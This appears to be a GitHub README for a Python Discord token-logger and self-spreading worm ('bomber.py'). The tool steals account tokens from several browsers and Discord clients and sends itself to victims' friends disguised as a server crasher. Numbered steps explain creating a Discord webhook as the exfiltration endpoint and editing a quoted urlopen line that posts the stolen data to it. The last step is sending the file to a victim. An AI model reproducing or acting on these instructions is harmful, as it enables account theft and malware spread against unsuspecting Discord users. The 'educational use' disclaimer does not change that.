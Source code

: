 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

DO NOT RUN THIS ON YOUR COMPUTER if you want to see what it does i recomend you run it in a vm and not a computer that you have logged your main discord account in previously.

This python script when you run it will token log the person and then send the file (bomber.py) to everyone on there friends list saying its a discord server crasher.

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server 

 ![Screenshot 2021-05-09 150939](https://user-images.githubusercontent.com/83868916/117561272-a3a73180-b0d8-11eb-8ff1-bd4e4e4584e8.png)

2. add a webhook ![Screenshot 2021-05-09 150105](https://user-images.githubusercontent.com/83868916/117561184-d270d800-b0d7-11eb-9432-49ec9ff63840.png)

3. copy webhook url ![Screenshot 2021-05-09 150143](https://user-images.githubusercontent.com/83868916/117561189-d69cf580-b0d7-11eb-8473-9b7f8d902403.png)

4. open the bommer.py in IDLE or another python editor ![Screenshot 2021-05-09 150211](https://user-images.githubusercontent.com/83868916/117561191-d7ce2280-b0d7-11eb-9978-ee33c259c576.png)

5. scroll down to the last line before the blank (big gap in code) near the bottom 
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ", data=dumps(webhook).encode(), headers=getheaders())) ![Screenshot 2021-05-09 150239](https://user-images.githubusercontent.com/83868916/117561194-d997e600-b0d7-11eb-8225-0bb6d77fa324.png)
6. change the "https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ" to your webhook url ![Screenshot 2021-05-09 150300](https://user-images.githubusercontent.com/83868916/117561195-dac91300-b0d7-11eb-9494-a55d8f6e5276.png)

7. save the file ![Screenshot 2021-05-09 151713](https://user-images.githubusercontent.com/83868916/117561385-b2421880-b0d9-11eb-98c4-00c3641d6ba6.png)

8. send to victim on discord ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**
